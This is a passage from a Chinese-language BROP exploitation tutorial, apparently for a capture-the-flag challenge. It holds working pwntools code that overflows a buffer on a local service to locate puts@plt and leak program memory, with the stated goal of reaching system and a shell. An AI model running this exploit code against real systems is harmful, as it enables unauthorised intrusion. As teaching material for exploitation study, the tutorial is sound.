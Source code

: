 這樣，我們基本得到了brop的gadgets地址0x4007ba

#### 確定puts@plt地址

根據上面，所說我們可以構造如下payload來進行獲取

```text
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

具體函數如下

```python
def get_puts_addr(length, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
            addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print 'find puts@plt addr: 0x%x' % addr
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
            addr += 1
```

最後根據plt的結構，選擇0x400560作爲puts@plt

#### 泄露puts@got地址

在我們可以調用puts函數後，我們可以泄露puts函數的地址，進而獲取libc版本，從而獲取相關的system函數地址與/bin/sh地址，從而獲取shell。我們從0x400000開始泄露0x1000個字節，這已經足夠包含程序的plt部分了。代碼如下

```python
def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 9999)
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
```